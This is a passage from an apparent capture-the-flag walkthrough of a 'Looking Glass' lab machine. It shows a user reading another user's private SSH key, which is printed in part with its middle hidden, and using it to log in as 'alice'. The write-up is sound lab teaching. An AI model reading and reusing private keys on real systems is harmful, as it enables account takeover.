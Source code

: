 The alice home folder has unusual permissions, let's go in there and check for files:

```text
humptydumpty@looking-glass:/home$ cd alice
humptydumpty@looking-glass:/home/alice$ cat .bashrc
# ~/.bashrc: executed by bash(1) for non-login shells.
# see /usr/share/doc/bash/examples/startup-files (in the package bash-doc)
# for examples
<<SNIP>>
```

So we have permissions to read the .bashrc file in the alice home folder, even though we haven't got permissions to view the contents of that folder.

Let see if we can find something else obvious like an rsa key:

```text
humptydumpty@looking-glass:/home/alice$ ls -la .ssh/id_rsa
-rw------- 1 humptydumpty humptydumpty 1679 Jul  3 01:26 .ssh/id_rsa
```

We see there is an id_rsa file in the expected .ssh folder, but also notice it is owned by our current logged on user humptydumpty. So we can read the contents:

```text
humptydumpty@looking-glass:/home$ cat /home/alice/.ssh/id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEpgIBAAKCAQEAxmPncAXisNjbU2xizft4aYPqmfXm1735FPlGf4j9ExZhlmmD
NIRchPaFUqJXQZi5ryQH6YxZP5IIJXENK+a4WoRDyPoyGK/63rXTn/IWWKQka9tQ
2xrdnyxdwbtiKP1L4bq/4vU3OUcA+aYHxqhyq39arpeceHVit+jVPriHiCA73k7g
HCgpkwWczNa5MMGo+1Cg4ifzffv4uhPkxBLLl3f4rBf84RmuKEEy6bYZ+/WOEgHl
<<HIDDEN>>
e8wCbMuhAoGBAOKy5OnaHwB8PcFcX68srFLX4W20NN6cFp12cU2QJy2MLGoFYBpa
dLnK/rW4O0JxgqIV69MjDsfRn1gZNhTTAyNnRMH1U7kUfPUB2ZXCmnCGLhAGEbY9
k6ywCnCtTz2/sNEgNcx9/iZW+yVEm/4s9eonVimF+u19HJFOPJsAYxx0
-----END RSA PRIVATE KEY-----
```

## Forth User

We can now ssh to alice using that file:

```text
humptydumpty@looking-glass:/home$ ssh alice@127.0.0.1 -i /home/alice/.ssh/id_rsa
The authenticity of host '127.0.0.1 (127.0.0.1)' can't be established.
ECDSA key fingerprint is SHA256:kaciOm3nKZjBx4DS3cgsQa0DIVv86s9JtZ0m83r1Pu4.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '127.0.0.1' (ECDSA) to the list of known hosts.
Last login: Fri Jul  3 02:42:13 2020 from 192.168.170.1
alice@looking-glass:~$ id
uid=1005(alice) gid=1005(alice) groups=1005(alice)
```

We could have also copied that id_rsa file to our local Kali box and then used ssh from there to get in as alice. Either way we are now logged in as our next user, let's have a look:

```text
alice@looking-glass:~$ ls -l
-rw-rw-r-- 1 alice alice 369 Jul  3 01:33 kitten.txt
alice@looking-glass:~$ cat kitten.txt
She took her off the table as she spoke, and shook her backwards and forwards with all her might.
The Red Queen made no resistance whatever; only her face grew very small, and her eyes got large and green: and still, as Alice went on shaking her, she kept on growing shorter—and fatter—and softer—and rounder—and—
—and it really was a kitten, after all.
```
